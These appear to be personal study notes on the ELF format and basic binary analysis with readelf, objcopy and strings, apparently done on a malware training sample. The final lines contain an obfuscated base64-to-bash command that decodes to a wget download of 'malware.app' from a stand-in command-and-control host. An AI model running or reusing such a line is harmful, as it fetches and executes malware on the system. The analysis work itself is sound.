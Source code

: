 ```yaml
---
title: ELF
---
```


##
##
## ELF Header
    Sections
    Segments
linking/loading process of ELF executables
##
##
## 两个PT_LOAD flags
## RE--read and execute-- 可执行代码。文件的entrypoint应该在这个段里面
## RW-read and write---- 文件的全局变量和动态链接信息
## .text 部分---包含了代码指令，映射到了PT_LOAD RE 段。
## 如果文件被改动，表的结构会变化
## ![2021_02_09_图片.png](https://cdn.logseq.com/%2F7aa8ab99-753a-4230-847b-43a1c3a3ef47a5a99d66-ad0a-424c-9568-7e492a02a4862021_02_09_%E5%9B%BE%E7%89%87.png?Expires=4766472377&Signature=eODqQb3zPRmL7lvHn3YgDGnrzK7k~Y-DAaj2xI32-poJF-7E13J7b7RAZloy4N3AD0zg6rtQRbY7pmG6VOR6bYEZ3tJq17zz3GPY4hTJbmM3P63NsiVchCF-6jGAGo0z8mebfAoJC8dQqw2wkagL5eGtjWx8e2yN9JeZXpnqUUqaoTerP43W-kjSzAZFfG~XZmiRyCeV2inXPZF8mvbbDEO4VSQRTbHktUTCLsFd9tqnuHtmLa0QbLzCdnalaSohabJHsk2t5zJQ2pii81a0HU4-lr2BMWOwLvxE9-hVNVsOXUDPjKHKWvZO29SA04BlB86MeXQEjmg6llo6gpkmIg__&Key-Pair-Id=APKAJE5CCD6X7MP6PTEA)
## 就像上面这个，只有三个段，其中PT_GNU_STACK---指示链接器文件是否需要可执行堆栈(这也是为什么它的大小为零)。
## ![2021_02_09_图片.png](https://cdn.logseq.com/%2F7aa8ab99-753a-4230-847b-43a1c3a3ef47ecb3954b-bfe9-4c8a-898b-4579c1c8d1302021_02_09_%E5%9B%BE%E7%89%87.png?Expires=4766472006&Signature=AS2PLW8fKDuV6kace5fEIBuSLkDDkrWrZq7a~WsHxvN7swqquDYr7kjgj5rtrQOASJ2ud~lhESwZOEGNMbyD6jP3soxpDUV4lDrdOPOHpk-XBsdWWBBrFv0kal-VJHGuUCWrvjRhYtO3iiM-7ptghKeUb0sSeaMg3BjeCAR1UnuspTi9QU7FwkNS6swNcSjJqv~Dk8DgRS4clJpDslS4FTlx50AyGfxSv2bYczi99m1uWDFxBS3Mm8~1TGpEt0Xhj6m2GgDX~9WAeGtcgyepO7X6HayVoF38kkA~EpcHnd22LBCB~OWqyvDuoN1PW7sHmo72a~9ZGPfYHaV7DKr-4g__&Key-Pair-Id=APKAJE5CCD6X7MP6PTEA){:height 492, :width 475}
##
## objcopy -S training-sample training-sample-stripped
## readelf -s training-sample-stripped
## 然后就只能看到动态symbol表
## Strip utilities may also leave the sections and patch fields in the ELF header (e shoff: offset of the section header table and e shnum: the number of section headers). As a result, the binary will be detected as having no sections.

Strip实用程序也可以在ELF报头中留下section和patch字段(e shoff: section头表的偏移量，e shnum: section头的数量)。结果，二进制文件将被检测为没有section
##
## ELF头--入口点，程序头表的位置
## readelf -h training-sample-- view header info
## strings training-sample > str.txt
## echo d2dldCBodHRwOi8vc29tZW5vbmV4aXRpbmdjbmNbLl1jb20vbWFsd2FyZS5hcHA=|base64 -d |bash;
## base64解密
